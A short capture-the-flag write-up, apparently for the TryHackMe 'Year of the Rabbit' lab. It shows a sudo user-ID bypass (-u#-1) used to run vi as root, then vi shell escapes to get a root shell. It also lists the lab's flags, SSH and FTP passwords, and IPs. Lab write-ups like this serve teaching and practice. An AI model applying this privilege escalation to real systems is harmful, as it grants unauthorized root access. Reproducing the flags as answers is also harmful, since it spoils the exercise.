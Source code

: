 The ouput of sudo -l means that vi CAN NOT be run as root (!root)

I was getting:

	gwendoline@year-of-the-rabbit:~$ sudo vi ~/gwendoline/user.txt 
	[sudo] password for gwendoline: 
	Sorry, user gwendoline is not allowed to execute '/usr/bin/vi /home/gwendoline/gwendoline/user.txt' as root on year-of-the-rabbit.

But after some reading and trying around I found that there is a vulnarability see:
https://www.exploit-db.com/exploits/47502

so by providing the -u#1-1 the system gets trickt into runing vi as root but without asking for a password as specified in the sudo config (see sudo -l)
I also could not provide aditional switches. But once vi is open with root privileges I used:

	:set shell=/bin/sh
	:shell 

to creat a shell with root privileges

	# whoami
	root
	# cat /root/root.txt
	THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}

Done!

## Important info

my IP: 10.9.222.124

target IP: 10.10.185.49

ssh:
User: eli
Password: DSpDiM1wAEwid

User: gwendoline
Password: MniVCQVhQHUNI

FTP:
user: ftpuser
pw: 5iez1wGXKfPK

user.txt:
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}

